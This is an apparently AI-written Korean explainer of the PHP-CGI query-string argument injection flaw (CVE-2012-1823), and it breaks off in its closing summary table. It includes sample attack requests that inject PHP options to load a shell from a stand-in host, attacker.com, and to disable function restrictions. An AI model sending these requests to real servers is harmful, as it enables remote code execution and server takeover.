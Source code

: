 좋아요, 이 질문은 핵심을 아주 잘 짚으셨어요.
"**쿼리 스트링으로 PHP 인자를 넘긴다**"는 말이 정확히 뭘 의미하는지, **예시**와 함께 **쉽게 설명**드릴게요.

---

## ✅ 쿼리 스트링(Query String)이란?

웹 주소에서 `?` 뒤에 붙는 부분입니다.

예시:

```
http://example.com/index.php?name=kim&age=25
```

* 여기서 `?name=kim&age=25` 이 부분이 **쿼리 스트링**
* 보통은 **GET 방식의 파라미터 전달**용입니다

---

## ❗ 그런데 PHP가 CGI로 실행될 때 문제가 생깁니다

### 정상적인 구조

웹서버(Apache, Nginx 등)가 PHP 파일을 실행할 때,
`php-cgi.exe`에게는 **실행할 스크립트의 경로**만 넘겨줘야 합니다.

```bash
php-cgi.exe /var/www/html/index.php
```

---

## 💣 하지만 취약한 환경에서는...

**쿼리 스트링으로 PHP의 실행 옵션을 주입**할 수 있었던 문제가 발생했어요.

예시 공격 요청:

```
GET /php-cgi/php-cgi.exe?%2D%2Dallow_url_include%3D1+%2D%2Dauto_prepend_file%3Dhttp://attacker.com/shell.txt HTTP/1.1
```
```
%ADd+cgi.force_redirect%3D0+
%ADd+disable_functions%3D%22%22+
%ADd+allow_url_include%3D1+
%ADd+auto_prepend_file%3Dphp://input
```

→ 이걸 디코딩하면:

```
/php-cgi/php-cgi.exe?--allow_url_include=1 --auto_prepend_file=http://attacker.com/shell.txt
```

### 즉!

PHP 내부 옵션을 이렇게 직접 전달하게 되는 거예요:

```bash
php-cgi.exe --allow_url_include=1 --auto_prepend_file=http://attacker.com/shell.txt
```

💥 이건 마치 공격자가 PHP의 설정값을 마음대로 조작하는 것과 같아요.

---

## 🧨 왜 위험한가?

PHP 실행 옵션 중에는 이런 것들이 있어요:

| 옵션                  | 설명                  | 악용 시 효과              |
| ------------------- | ------------------- | -------------------- |
| `allow_url_include` | 외부 URL 포함 허용        | 외부 웹셸 불러오기 가능        |
| `auto_prepend_file` | PHP 파일 실행 전에 강제로 삽입 | 공격 코드 먼저 실행          |
| `disable_functions` | 위험 함수 해제            | system, exec 등 사용 가능 |

→ 이걸 쿼리 스트링으로 조작할 수 있었던 게 **CVE-2012-1823**의 본질입니다.

---

## 🔐 원래는 절대 안 돼야 함

정상적인 PHP 실행은 이렇게 되어야 하고:

```bash
php-cgi.exe /var/www/html/index.php
```

쿼리 스트링은 단지 **사용자 입력용**이어야 합니다:

```
/index.php?search=apple
```

그런데 **실행 옵션이 들어간다면? → 서버 통제권을 넘겨주는 셈**입니다.

---

## ✅ 결론 요약

| 질문               | 답변 |
| ---------------- | -- |
| 쿼리 스트링으로 PHP 인자를 |    |
